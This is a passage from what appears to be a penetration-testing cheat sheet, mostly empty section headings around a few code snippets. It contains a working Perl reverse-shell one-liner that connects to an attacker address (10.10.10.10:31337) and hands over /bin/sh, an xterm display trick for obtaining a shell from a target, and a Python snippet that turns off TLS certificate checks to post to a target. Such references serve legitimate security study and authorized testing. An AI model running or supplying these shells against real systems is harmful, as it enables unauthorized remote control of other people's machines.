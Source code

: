   - Perl

```bash
perl -e 'use Socket;$i="10.10.10.10";$p=31337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

  - Xterm

```bash
#On target system
xterm -display 10.10.10.10:1

#On Kali
Xnest :1
xhost +<targetip>
```

## Using MSFVenom 

  ---
# Privilege Escalation

---
# Scripts

  - Using python to send requests to outdated or self signed SSL Certs 
```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning


requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
requests.packages.urllib3.util.ssl_.DEFAULT_CIPHERS += 'HIGH:!DH:!aNULL'

r = requests.post("https://10.10.10.10/form.php",data={'ID':'1004'},verify=False)
print(r.text)
```
---
# Web Application Testing

---
# Useful Commands
## Linux

  - List all open ports
